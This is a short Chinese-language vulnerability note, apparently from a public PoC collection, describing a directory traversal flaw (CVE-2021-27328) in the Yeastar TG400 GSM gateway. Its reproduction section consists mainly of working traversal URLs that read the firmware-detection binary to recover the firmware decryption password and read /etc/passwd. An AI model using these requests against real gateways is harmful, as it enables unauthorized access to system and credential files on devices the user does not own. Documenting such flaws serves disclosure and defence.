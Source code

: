 # 朗视 TG400 GSM 网关目录遍历 CVE-2021-27328
## 漏洞描述

朗视 TG400 GSM 网关存在目录遍历 ，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

`朗视 TG400 GSM 网关`

## 漏洞复现

暂无FOFA语句及固件设备复现

获取固件解密密码

`http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect`

/etc/passwd：

`http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd`

## 参考文章
https://github.com/SQSamir/CVE-2021-27328